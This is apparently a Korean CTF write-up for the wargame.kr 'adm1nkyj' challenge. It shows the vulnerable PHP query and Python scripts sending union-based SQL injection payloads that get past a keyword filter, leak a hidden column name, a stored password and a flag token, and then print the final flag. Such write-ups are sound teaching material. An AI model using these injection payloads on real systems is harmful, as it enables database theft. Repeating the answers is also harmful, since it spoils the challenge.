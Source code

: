 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-01-11-47.png)

# **Write-Up**

바로 소스코드가 열린다.

![](images/2022-01-03-01-12-10.png)

information, schema, user를 제외하고는 아무 필터링도 없다.

```php
if(preg_match("/information|schema|user/i", $id) || substr_count($id,"(") > 1) exit("no hack");
if(preg_match("/information|schema|user/i", $pw) || substr_count($pw,"(") > 1) exit("no hack");
```

대신 Loose Comparisons이 아니고, 컬럼 명도 다 변수화되어 있다.

```php
$query = mysql_fetch_array(mysql_query("SELECT * FROM findflag_2 WHERE $id_column='{$id}' and $pw_column='{$pw}';"));
if($query[$id_column])
{
    if(isset($pw) && isset($flags) && $pw === $tmp_pw && $flags === $tmp_flag)
```

우선, 컬럼 수를 알아보면 5개임을 알 수 있고, 두번째 컬럼이 출력되는 점을 알 수 있다.

```python
import urllib
import urllib.request

id          = urllib.parse.quote('\' union select 1,2,3,4,5#')
pw          = urllib.parse.quote('')
flag        = urllib.parse.quote('')
url         = 'http://wargame.kr:8080/adm1nkyj/?id='+id+'&pw='+pw+'&flag='+flag
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
request     = urllib.request.Request(url, headers = headers)
response    = urllib.request.urlopen(request)
data        = response.read().decode()
print(data)

[Output]
Hello 2<hr>
```

우선 pw_column명이 뭔지 알 수 있다. $id_column='' union select 1,and $pw_column=',3,4,5#'로 쿼리가 들어가기 때문에 pw_column이 어떤 값인지 알 수 있다.

```python
... 생략 ...
id          = urllib.parse.quote('\' union select 1,')
pw          = urllib.parse.quote(',3,4,5#')
... 생략 ...
pw_column   = data[data.find('and ')+len('and '):data.find('=<hr')]
print('pw_column\t: '+pw_column)

[Output]
pw_column       : xPw4coaa1sslfe
```

pw_column명을 알았으니, get_pw함수의 반환 값(tmp_pw)을 알 수 있다.

```python
id          = urllib.parse.quote('\' union select 1, (select {} from findflag_2), 3, 4, 5#'.format(pw_column))
pw          = urllib.parse.quote('')
... 생략 ...
tmp_pw      = data[data.find('Hello ')+len('Hello '):data.find('<hr')]
print('tmp_pw\t\t: '+tmp_pw)

[Output]
tmp_pw          : !@SA#$!
```

id 값은 ' or 1=1#로 뽑아본다.

```python
id          = urllib.parse.quote('\' or 1=1#')
... 생략 ...
query_id_colum = data[data.find('Hello ')+len('Hello '):data.find('<hr')]
print('query_id_colum\t: '+query_id_colum)

[Output]
query_id_colum  : adm1ngnngn
```

이제 tmp_flag를 뽑는다.

1. select 1 as flag,2,3,4,5의 결과는 다음과 같다.

    |flag|2|3|4|5|
    |:---:|:---:|:---:|:---:|:---:|
    |1|2|3|4|5|

2. select 1 as flag,2,3,4,5 union select * from findflag_2의 결과는 다음과 같다.

    |flag|2|3|4|5|
    |:---:|:---:|:---:|:---:|:---:|
    |1|2|3|4|5|
    |어떤 값 | 어떤 값 | 어떤 값 | 어떤 값 | 어떤 값|
    |어떤 값 | 어떤 값 | 어떤 값 | 어떤 값 | 어떤 값|
    |어떤 값 | 어떤 값 | 어떤 값 | 어떤 값 | 어떤 값|
    * 어떤 값 : select * from findflag_2의 결과

3. select 1 as flag,2,3,4,5 union select * from findflag_2 limit 1,1의 결과는 다음과 같다.

    |flag|2|3|4|5|
    |:---:|:---:|:---:|:---:|:---:|
    |어떤 값 | 어떤 값 | 어떤 값 | 어떤 값 | 어떤 값|
    * 어떤 값 : select * from findflag_2의 결과

4. (select 1 as flag,2,3,4,5 union select * from findflag_2 limit 1,1) as x의 결과를 x라는 테이블로 칭한다.

5. union select 1,flag,3,4,5 from (select 1,2,3,4 as flag,5 union select * from findflag_2 limit 1,1) as x의 결과는 x테이블의 flag컬럼에 해당하는 값을 가져온다.

    |1|flag|3|4|5|
    |:---:|:---:|:---:|:---:|:---:|
    |1| 어떤 값 |3|4|5|
    * 어떤 값 : select * from findflag_2의 결과

subquery에서 'as flag'가 붙은 컬럼을 1~5번까지 하다보면 위에서 tm_pw, id 등을 가져온 값이 보인다. 이때, 4번 컬럼이 flag로 유추된다.

```python
id          = urllib.parse.quote('\' union select 1,flag,3,4,5 from (select 1,2,3,4 as flag,5 union select * from findflag_2 limit 1,1) as x#')
... 생략 ...
tmp_flag    = data[data.find('Hello ')+len('Hello '):data.find('<hr')]
print('tmp_flag\t: '+tmp_flag)

[Output]
tmp_flag        : rMQdeBKDivGonFtC2k1aNzXRLW5h03IuyT4fAw9EsJZbYH7pc8PmSlVq6xOUjg
```

id, tmp_pw, tmp_flag를 알았으니 FLAG를 획득한다.

```python
id          = urllib.parse.quote(query_id_colum)
pw          = urllib.parse.quote(tmp_pw)
flag        = urllib.parse.quote(tmp_flag)
... 생략 ...
print('data\t\t: '+data)

[Output]
data            : good job!!<br />FLAG : <b>6f98171cb0edad29be30d6a287db08f1ad9421fc</b><hr>
```


# **FLAG**

**6f98171cb0edad29be30d6a287db08f1ad9421fc**